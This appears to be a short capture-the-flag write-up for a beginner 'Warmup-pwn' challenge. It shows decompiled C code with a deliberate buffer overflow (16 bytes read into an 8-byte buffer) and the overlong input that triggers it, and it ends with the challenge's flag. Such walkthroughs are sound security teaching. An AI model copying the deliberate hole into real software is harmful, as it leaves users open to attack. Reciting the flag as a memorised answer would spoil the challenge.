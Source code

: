 # [Pwn] Warmup-pwn 

## ✨ Walkthrough

Basic buffer overflow challenge.

```c
void win(void)
{
  system("cat flag.txt");
  return;
}

undefined8 main(void)
{
  ssize_t payload;
  undefined buffer [8];
  int payload_len;
  
  initialize();
  puts("To get your flag, try to call the win() function!!");
  puts("Enter the magic payload...");
  payload = read(0,buffer,0x10);
  payload_len = (int)payload;
  if (payload_len < 9) {
    puts("Sorry, try again.");
  }
  else {
    puts("You got it dude!!");
    win();
  }
  return 0;
}
```

```
┌──(kali㉿kali)-[/[Pwn] Warmup-pwn]
└─$ ./warmup
To get your flag, try to call the win() function!!
Enter the magic payload...
1111111111111111  
You got it dude!!
CURTIN_CTF{Cyb3rW4rri0rPr0t3ctTh3N3tw0rk} 
```

## 🏳️ Flag

`CURTIN_CTF{Cyb3rW4rri0rPr0t3ctTh3N3tw0rk}`